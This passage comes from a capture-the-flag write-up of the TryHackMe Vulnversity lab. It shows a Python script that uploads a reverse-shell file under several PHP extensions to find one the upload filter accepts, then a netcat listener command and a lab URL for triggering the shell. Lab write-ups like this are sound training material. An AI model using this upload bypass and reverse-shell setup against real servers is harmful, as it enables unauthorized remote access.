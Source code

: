 ```python
file = "revshell"

extensions = ['.php','.php3','.php4','.php5','.phtml']

for ext in extensions:
	newfile = file + ext
	rename = os.rename(oldfile, newfile)
	
	file_to_upload = {'file': open(newfile, 'rb')}

	r = requests.post(url + action, data=data, files=file_to_upload)

	if "Extension not allowed" in r.text:
		print(f"This file not allowed : {newfile}")
	else:
		print(f"This file is allowed : {newfile}")

	oldfile = newfile
```

Let's run the script and finally yes. We got a hit boys. This page only accept .phtml extensions. COOL

![8](/assets/images/thm/vulnversity/8.png)

Now we need to setup netcat listener to the port that we change in the our reverse shell. If you can see I'm listen to the port 6969, because I'm using this port in my reverse shell

```
nc -lnvp 6969
```
To activated our reverse shell go to this url http://10.10.111.81:3333/internal/uploads/ . But how you found the `/uploads` directory. Good questions. Just run gobuster against /internal directory. We found this.

![9](/assets/images/thm/vulnversity/9.png)
